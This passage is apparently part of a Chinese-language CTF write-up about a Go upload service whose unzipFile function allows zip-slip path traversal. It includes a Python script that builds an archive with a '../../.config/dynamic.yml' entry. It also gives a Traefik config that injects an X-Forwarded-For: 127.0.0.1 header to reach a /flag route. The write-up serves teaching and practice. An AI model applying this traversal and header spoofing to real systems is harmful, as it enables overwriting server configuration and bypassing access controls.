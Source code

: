 ```
}
```

这里需要我们上传一个zip文件，然后放到unzipFile函数下进行一个解压

看到unzipFile中使用了filepath.Join后，联想到了python里的path.join，想着能否把压缩包内的文件名写成../开头的形式，这样的话我们就能成功目录穿越，然后覆盖配置文件了

尝试出来是可以的，这里我写了个python脚本来达到目的

```
import zipfile

if __name__ == "__main__":
    try:
        binary=open("config/dynamic.yml","r").read()
        zipFile = zipfile.ZipFile("test2.zip", "w", zipfile.ZIP_DEFLATED)
        info = zipfile.ZipInfo("test2.zip")
        zipFile.writestr("../../.config/dynamic.yml", binary)
        zipFile.writestr("1234.txt",binary)
        zipFile.close()
    except IOError as e:
        raise e
```

然后dynamic.yml内容如下,由于XFF头的存在，我们还需要额外加一个添加请求头的中间件

```
http:
  middlewares:
    # 定义添加请求头的中间件
    add-headers:
      headers:
        customRequestHeaders:
          X-Forwarded-For: 127.0.0.1     

  services:
    proxy:
      loadBalancer:
        servers:
          - url: "http://127.0.0.1:8080"

  routers:
    index:
      rule: Path(`/public/index`)
      entrypoints: [web]
      service: proxy
      middlewares:
        - add-headers  # 应用中间件
    upload:
      rule: Path(`/public/upload`)
      entrypoints: [web]
      service: proxy
      middlewares:
        - add-headers  # 应用中间件
    flag:
      rule: Path(`/flag`)
      entrypoints: [web]
      service: proxy
      middlewares:
        - add-headers
```

